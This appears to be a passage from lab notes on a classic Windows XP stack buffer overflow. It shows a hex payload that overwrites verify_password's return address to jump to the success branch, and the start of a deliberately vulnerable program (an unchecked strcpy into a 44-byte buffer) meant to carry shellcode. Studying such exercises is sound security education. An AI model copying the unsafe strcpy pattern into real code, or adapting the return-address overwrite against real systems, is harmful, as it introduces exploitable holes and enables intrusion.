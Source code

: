 ```c
    }
    fclose(fp);
}

```

##### Analysis (ExpStd0102)

> first use a known address for shellcode, this address is compiled differently by different compilers and loaded differently by different systems, so it can only be used for testing

- Necessary information
  - Success branch address: `0x0040111F`
  - Since memory is stored in reverse order, these values should be written in reverse order
- Edit password.txt in hexadecimal as follows

```c
34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31 34 33 32 31
1F 11 40 00
```

- Run the program, at this point
  - The stack address `0x0012FB24` holds the return address of the function `verify_password`.
  - This has been flushed to `0040111F`, which is the success branch address
- The success branch address is used instead of the return address, but the program crashes after displaying success because the stack is not balanced

---

#### added attack load (ShellCode)

Increase the size of the buffer to carry the attack load  
Dynamically load DLL for API calls

##### code (ExpStd0103)

> Compile environment: Windows XP SP3, Visual C++ 6, Debug  
> Experimental environment: Windows XP SP3

```c
#include <stdio.h>
#include <windows.h>
#define PASSWORD "1234567"

int verify_password(char *password)
{
    int authenticated;
    char buffer[44];
    authenticated = strcmp(password, PASSWORD);
    strcpy(buffer, password);
    return authenticated;
}

int main()
{
    int valid_flag = 0;
    char password[1024];
    FILE * fp;
    LoadLibrary("user32.dll");
    if(!(fp = fopen("password.txt", "rw+")))
    {
        exit(0);
    }
    fscanf(fp, "%s", password);
    valid_flag = verify_password(password);
    if(valid_flag)
    {
```